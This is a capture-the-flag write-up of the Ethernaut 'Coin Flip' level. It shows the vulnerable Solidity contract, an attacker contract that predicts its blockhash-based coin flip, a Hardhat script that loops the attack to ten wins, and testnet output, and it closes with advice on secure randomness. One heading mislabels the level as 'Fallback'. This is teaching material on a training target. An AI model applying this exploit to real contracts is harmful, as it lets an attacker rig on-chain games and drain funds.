 ```yaml
---
title: Ethernaut Coin Flip
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Coin Flip challenge writeup
---
```


## Fallback

### Challenge

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

  Things that might help

* See the Help page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

### Background

Randomness on the chain is not easy to achieve. When using techniques that are block dependent they can be easily manipulated.

### Attack

In order to solve this challenge we need to predict the value of `side` in the `flip` function. The value of `side` depends on `FACTOR` and `blockValue`. `FACTOR` is a constant and `blockValue` is a the hash of the previous block. So we only need to find the hash of the previous block in order to attack the random side generator. So we could precalculate the value using the current block hash and pay a high enough fee to make sure we are in the next block. But this method is expensive, and likely to fail. However, there is a much more reliable solution that will work 100% of the time. We can create a contract of our own, that will call the `flip` function in the `CoinFlip` contract. This contract will have all the information that the `CoinFlip` contract has and can thus know exactly the output of the computation.

* Deploy an attacker controlled contract that can calculate the result.
* Call it until the expected number is reached

#### CoinFlipSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';
import '../challenges/CoinFlip.sol';

contract CoinFlipSolve {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip coinFlipContract;

  constructor(address _coinFlipAddress) public {
    coinFlipContract = CoinFlip(_coinFlipAddress);
  }

  function flip() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    coinFlipContract.flip(side);
  }
}
```

#### coin-flip-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    coinFlipAddress = "0x8C4A7428681896BCE847d2ED9c60c6eEB95eFca1";
    contract = await ethers.getContractAt("CoinFlip", coinFlipAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    CoinFlipSolve = await ethers.getContractFactory("CoinFlipSolve");
    coinFlipSolve = await CoinFlipSolve.deploy(contract.address);
    await coinFlipSolve.deployed();

    console.log("Level address   : " + contract.address)
    console.log("Consecutive Wins  : " + await contract.consecutiveWins())
    console.log("Executing Attack")

    // predict flip until consecutive wins reached
    while (await contract.consecutiveWins() < 10) {
        tx = await coinFlipSolve.connect(account).flip()
        receipt = await tx.wait()
    }

    console.log("Finished Executing Attack")
    console.log("Consecutive Wins  : " + await contract.consecutiveWins())    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/coin-flip-solve.js --network rinkeby
Level address   : 0x8C4A7428681896BCE847d2ED9c60c6eEB95eFca1
Consecutive Wins  : 1
Executing Attack
Finished Executing Attack
Consecutive Wins  : 10
```

### Success Message

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).

